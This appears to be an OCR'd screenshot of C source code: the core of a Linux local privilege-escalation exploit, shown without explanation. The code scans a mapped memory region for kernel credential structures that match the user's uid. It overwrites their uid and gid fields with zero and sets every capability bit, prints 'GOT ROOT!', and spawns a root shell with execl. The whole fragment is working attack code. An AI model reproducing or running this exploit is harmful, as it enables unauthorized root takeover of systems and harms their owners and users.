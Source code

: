 ```
  		unsigned int credIt = 0;
  		unsigned int credNum = 0;
  		while (((unsigned long)addr) < (mmapStart + size - 0x40))
  			{
  				credIt = 0;
  				if (
  					addr[credIt++] == uid &&
  					addr[credIt++] == uid &&
  					addr[credIt++] == uid &&
  					addr[credIt++] == uid &&
  					addr[credIt++] == uid &&
  					addr[credIt++] == uid &&
  					addr[credIt++] == uid &&
  					addr[credIt++] == uid
  					)
  				{
  					credNum++;
  					printf("[+] Found cred structure! ptr: %p, credNum: %d\n", addr, credNum);

  					credIt = 0;
  					addr[credIt++] = 0;
  					addr[credIt++] = 0;
  					addr[credIt++] = 0;
  					addr[credIt++] = 0;
  					addr[credIt++] = 0;
  					addr[credIt++] = 0;
  					addr[credIt++] = 0;
  					addr[credIt++] = 0;

  					if (getuid() == 0)
  					{
  						puts("[+] GOT ROOT!");
  						
  						credIt += 1; //Skip 4 bytes, to get capabilities
  						addr[credIt++] = 0xffffffff;
  						addr[credIt++] = 0xffffffff;
  						addr[credIt++] = 0xffffffff;
  						addr[credIt++] = 0xffffffff;
  						addr[credIt++] = 0xffffffff;
  						addr[credIt++] = 0xffffffff;
  						addr[credIt++] = 0xffffffff;
  						addr[credIt++] = 0xffffffff;
  						addr[credIt++] = 0xffffffff;
  						addr[credIt++] = 0xffffffff;
  						execl("/bin/sh", "-", (char * )NULL);
  						puts("[-] Execl failed...");

  						break;
  					}
  			
  				}
			
				addr++;
			}
			puts("[+] Scanning loop END");
			fflush(stdout);

			int stop = getchar();
			return 0;
		}
```
